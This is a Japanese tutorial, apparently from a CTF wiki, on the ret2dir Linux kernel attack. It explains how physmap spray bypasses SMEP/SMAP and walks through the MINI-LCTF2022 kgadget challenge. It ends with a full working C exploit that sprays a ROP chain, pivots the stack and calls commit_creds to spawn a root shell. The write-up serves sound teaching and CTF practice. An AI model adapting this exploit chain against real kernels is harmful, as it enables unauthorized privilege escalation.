


# ret2dir

ret2dir は、2014 年にコロンビア大学のネットワークセキュリティ研究室が提案した補助的な攻撃手法で、主に **smep、smap、pxn など、ユーザ空間とカーネル空間を隔離する防御手段をバイパスする**ために使われます。元の論文は[こちら](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)です。

まず、[x86 の Linux kernel のメモリレイアウト](https://elixir.bootlin.com/linux/latest/source/Documentation/x86/x86_64/mm.rst)を考えてみます。そこには `direct mapping area` という領域があり、**物理メモリ空間全体を線形に直接マッピングしています**。

```rst
ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
```

この領域が存在するということは、ユーザプロセスが使っている物理ページフレームについて、**そのページフレームへのマッピングとして、ユーザ空間のアドレスとカーネル空間のアドレスが同時に存在する**ということです。つまり、この 2 つのアドレスのどちらでメモリアクセスしても、同じ物理ページフレームにアクセスします。

SMEP、SMAP、PXN などの防御が有効な場合、カーネル空間からユーザ空間への直接アクセスは禁止されるため、**ret2usr のような攻撃方法は直接は使えません**。しかし、カーネルの線形マッピング領域が物理アドレス空間全体をマッピングしていることを利用すると、**カーネル空間上のアドレスを使ってユーザ空間のデータにアクセスでき、SMEP、SMAP、PXN といった、ユーザ空間とカーネル空間を隔離する従来の防御手段をバイパスできます**。

下図は元の論文にある、この ret2dir 攻撃の例です。ユーザ空間に配置した gadget に、direct mapping area 上のアドレスを通じて**カーネル空間からアクセスできます**。



ただし、**新しいバージョンのカーネルでは direct mapping area にはすでに実行権限がありません**。そのため、ユーザ空間に shellcode を直接配置して攻略することは難しくなっています。**しかし、ユーザ空間に ROP チェーンを配置する方法であれば、引き続き攻略できます**。



ret2dir を使った攻撃の、比較的素朴な手法は次のとおりです。

- mmap を使って、ユーザ空間に大量のメモリをスプレーする。

- 脆弱性を利用して、カーネルの「ヒープ」上のアドレス(kmalloc で得られるアドレス)をリークする。**このアドレスは線形マッピング領域に直接由来しています**。

- リークしたカーネルの線形マッピング領域のアドレスを使って**メモリ検索を行い**、ユーザ空間にスプレーしたメモリを見つける。

**この時点で、ユーザ空間にマッピングされたカーネル空間のアドレスを手に入れたことになります。このカーネル空間のアドレスを通じて、ユーザ空間のデータに直接アクセスでき、ユーザ空間とカーネル空間を隔離する従来の防御手段を回避できます**。

注意点として、多くの場合メモリ検索を行う機会はありません。そのため、**mmap で大量の物理メモリに同じ payload を書き込んでスプレーし**、その後で線形マッピング領域上のアドレスを適当に選んで攻略に使います。こうすると、**配置した payload に命中する可能性が高く**なります。この攻撃手法は `physmap spray` とも呼ばれます。

## 例題：MINI-LCTF2022 - kgadget

> 公式の write up は [https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir) を参照してください。

問題の添付ファイルは [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/MINILCTF2022-kgadget](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/MINILCTF2022-kgadget) からダウンロードできます。

### 分析

いつものように、脆弱なドライバが与えられます。リバースしてみると、実はそれほど難しくありません。役に立つのは ioctl だけで、ioctl の第 2 引数が 114514 のとき、第 3 引数をポインタとして参照外しし、それが指すアドレス上の値を関数ポインタとして実行します(ここではコンパイラが `__x86_indirect_thunk_rbx()` に最適化していますが、本質的には `call rbx` です)。

```c
__int64 __fastcall kgadget_ioctl(file *__file, unsigned int cmd, unsigned __int64 param)
{
  __int64 *v3; // rdx
  __int64 v4; // rsi
  __int64 result; // rax

  _fentry__(__file, cmd, param);
  if ( cmd == 114514 )
  {
    v4 = *v3;
    printk(&unk_370);
    printk(&unk_3A0);
    qmemcpy(
      (void *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 168),
      "arttnba3arttnba3arttnba3arttnba3arttnba3arttnba3",
      48);
    *(_QWORD *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 112) = 0x3361626E74747261LL;
    printk(&unk_3F8);
    _x86_indirect_thunk_rbx(&unk_3F8, v4);
    result = 0LL;
  }
  else
  {
    printk(&unk_420);
    result = -1LL;
  }
  return result;
}
```

起動スクリプトでは smep と smap の保護が有効になっているため、ユーザ空間で rop を構築して ret2usr することは直接はできません。ただし kaslr は有効になっていないため、カーネルのベースアドレスをリークする必要もありません。

```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -smp cores=2,threads=2 \
    -kernel bzImage \
    -initrd ./rootfs.cpio \
    -nographic \
    -monitor /dev/null \
    -snapshot \
    -append "console=ttyS0 nokaslr pti=on quiet oops=panic panic=1" \
    -no-reboot
```

### 脆弱性の悪用

カーネル空間には、このように呼び出せる目標を直接見つけられません(カーネル空間には、このように呼び出せる関数ポインタ、たとえば tty デバイスのデフォルトの関数テーブル `ptm_unix98_ops` などは存在しますが、これらの関数テーブルの関数ポインタは私たちには役に立ちません)。そのため、**カーネル空間に自分の関数ポインタと rop chain を手作業で配置する**必要があります。その後、配置した gadget のアドレスを渡せば攻略できます。

では、悪意あるデータをカーネル空間にどう配置すればよいでしょうか。`msg_msg` や `sk_buff` など、ヒープスプレーによく使われる一連の構造体を思いつく人もいるでしょう。**しかし実際には、カーネル空間に明示的にデータを配置する必要はなく、カーネル空間にあるアドレスを通じて、ユーザ空間のデータに直接アクセスできます**。それが、物理メモリ全体をマッピングしている `direct mapping area` です。

考えてみると、**ユーザ空間に確保した各メモリページは、カーネル空間ではこの領域を通じてアクセスできます**。そのため、ユーザ空間に悪意あるデータを配置し、その後カーネル空間のこの領域内で、ユーザ空間のデータに対応するカーネル空間のアドレスを見つければ済みます。これが `ret2dir`、つまり**カーネル空間のアドレスを通じてユーザ空間のデータにアクセスする**ということです。

ここで新たな問題が生じます。**配置した悪意あるデータが、カーネル空間でどのアドレスに対応するかを、どうやって知ればよいのでしょうか。**カーネル空間でメモリ検索を行うことはできないため、配置した悪意あるデータのカーネル空間でのアドレスを直接知ることもできません。

**答えは、検索が不要だということです**。ここでは、[元の論文](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)にある `physmap spray` という攻撃手法を使います。**mmap で大量の物理メモリに同じ payload を書き込んでスプレー**し、その後、比較的高いアドレス寄りの direct mapping area 上のアドレスを適当に選んで攻略に使います。こうすると、**配置した payload に命中する可能性が高く**なります。

筆者が実際に試したところ、スプレーするメモリページの数がある程度の桁に達すると、**direct mapping area の中ほどから後ろ寄りの領域で、いつも正確に悪意あるデータに命中させられました**。

最後に、gadget の選択と rop chain の構築です。`add rsp, val ; ret` のような gadget で、カーネルスタック上の `pt_regs` にジャンプし、そこに権限昇格用の rop chain を配置することが考えられます。しかし、この問題では、`pt_regs` で使えるレジスタは r9 と r8 の 2 つだけです。出題者が事前に `pt_regs` をクリアしているためです。

```c
    qmemcpy(
      (void *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 168),
      "arttnba3arttnba3arttnba3arttnba3arttnba3arttnba3",
      48);
    *(_QWORD *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 112) = 0x3361626E74747261LL;
```

しかし実際には、2 つのレジスタだけでも十分です。`pop_rsp ; ret` の gadget でスタックピボットを行い、**スタックを、ユーザ空間に配置した悪意あるデータの上へ移動させ**、その後、悪意あるデータの後ろのほうに、権限昇格してユーザ空間に戻るための rop chain を配置すれば済みます。

buddy system はページ単位でメモリを確保するため、筆者もページ単位で physmap spray を行い、より多くの物理メモリを消費して命中率を上げようとしました。ここでは、筆者はオフセットを計算するのが面倒だったため、各メモリページに「3 段構成」の rop chain を配置し、`pt_regs` にジャンプするための gadget を slide code としても使っています。

```
------------------------
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret
...
add rsp, val ; ret # このgadgetは必ず次の領域にあるretのどれかに命中し、その後は通常の権限昇格 rop へなめらかに「滑り」込める
------------------------
ret
ret
...
ret
------------------------
common root ROP chain
------------------------
```

### final exploit

最終的な exp は次のとおりです。

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

size_t  prepare_kernel_cred = 0xffffffff810c9540;
size_t  commit_creds = 0xffffffff810c92e0;
size_t  init_cred = 0xffffffff82a6b700;
size_t  pop_rdi_ret = 0xffffffff8108c6f0;
size_t  pop_rax_ret = 0xffffffff810115d4;
size_t  pop_rsp_ret = 0xffffffff811483d0;
size_t  swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00fb0 + 27;
size_t  add_rsp_0xe8_pop_rbx_pop_rbp_ret = 0xffffffff812bd353;
size_t  add_rsp_0xd8_pop_rbx_pop_rbp_ret = 0xffffffff810e7a54;
size_t  add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
size_t  ret = 0xffffffff8108c6f1;

void    (*kgadget_ptr)(void);
size_t  *physmap_spray_arr[16000];
size_t  page_size;
size_t     try_hit;
int     dev_fd;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(void)
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error : \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void getRootShell(void)
{   
    puts("\033[32m\033[1m[+] Backing from the kernelspace.\033[0m");

    if(getuid())
    {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(-1);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m");
    system("/bin/sh");
    exit(0);// to exit the process normally instead of segmentation fault
}

void constructROPChain(size_t *rop)
{
    int idx = 0;

    // gadget to trigger pt_regs and for slide
    for (; idx < (page_size / 8 - 0x30); idx++)
        rop[idx] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;

    // more normal slide code
    for (; idx < (page_size / 8 - 0x10); idx++)
        rop[idx] = ret;

    // rop chain
    rop[idx++] = pop_rdi_ret;
    rop[idx++] = init_cred;
    rop[idx++] = commit_creds;
    rop[idx++] = swapgs_restore_regs_and_return_to_usermode;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) getRootShell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;
}

int main(int argc, char **argv, char **envp)
{
    saveStatus();

    dev_fd = open("/dev/kgadget", O_RDWR);
    if (dev_fd < 0)
        errExit("dev fd!");

    page_size = sysconf(_SC_PAGESIZE);

    // construct per-page rop chain
    physmap_spray_arr[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    constructROPChain(physmap_spray_arr[0]);

    // spray physmap, so that we can easily hit one of them
    puts("[*] Spraying physmap...");
    for (int i = 1; i < 15000; i++)
    {
        physmap_spray_arr[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (!physmap_spray_arr[i])
            errExit("oom for physmap spray!");
        memcpy(physmap_spray_arr[i], physmap_spray_arr[0], page_size);
    }

    puts("[*] trigger physmap one_gadget...");
    //sleep(5);

    try_hit = 0xffff888000000000 + 0x7000000;
    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   0x11111111;"
        "mov r13,   0x22222222;"
        "mov r12,   0x33333333;"
        "mov rbp,   0x44444444;"
        "mov rbx,   0x55555555;"
        "mov r11,   0x66666666;"
        "mov r10,   0x77777777;"
        "mov r9,    pop_rsp_ret;"   // stack migration again
        "mov r8,    try_hit;"
        "mov rax,   0x10;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   try_hit;"
        "mov rsi,   0x1bf52;"
        "mov rdi,   dev_fd;"
        "syscall"
    );
}
```

## REFERENCE

[http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir)